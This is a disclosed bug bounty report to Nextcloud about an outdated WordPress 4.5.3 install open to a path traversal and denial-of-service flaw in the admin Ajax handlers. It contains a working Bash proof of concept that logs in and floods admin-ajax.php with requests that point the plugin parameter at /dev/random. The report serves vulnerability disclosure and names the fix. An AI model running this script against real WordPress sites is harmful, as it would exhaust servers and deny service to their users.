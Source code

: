 # Wordpress: Directory Traversal / Denial of Serivce

## Report Details
- **Report ID**: 163421
- **URL**: https://hackerone.com/reports/163421
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-25T20:02:55.338Z
- **Disclosed**: 2016-08-26T08:52:53.883Z

## Reporter
- **Username**: tbehroz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hello Security team,
While testing nextcloud.com i have found that you are not using the lastest version of wordpress you are using old version 4.5.3 which is vulnerable to Directory Traversal / Denial of Serivce

Description :

A path traversal vulnerability was found in the Core Ajax handlers of the WordPress Admin API. This issue can be used by an Subscriber to create a denial of service.

POC

The following Bash script can be used to exploit this vulnerability
```
#!/bin/bash
target="https://nextcloud.com"
username="subscriber"
password="password"
cookiejar=$(mktemp)

# login
curl --cookie-jar "$cookiejar" \
   --data "log=$username&pwd=$password&wp-submit=Log+In&redirect_to=%2f&testcookie=1" \
   "$target/wp-login.php" \
   >/dev/null 2>&1

# exhaust apache
for i in `seq 1 1000`
   do
      curl --cookie "$cookiejar" \
      --data "plugin=../../../../../../../../../../dev/random&action=update-plugin" \
      "$target/wp-admin/admin-ajax.php" \
      >/dev/null 2>&1 &
done

rm "$cookiejar"
```
### FIX :

Upgrade your wordpress to 4.6

More details about vulnerability : `https://sumofpwn.nl/advisory/2016/path_traversal_vulnerability_in_wordpress_core_ajax_handlers.html`

## Attachments
No attachments
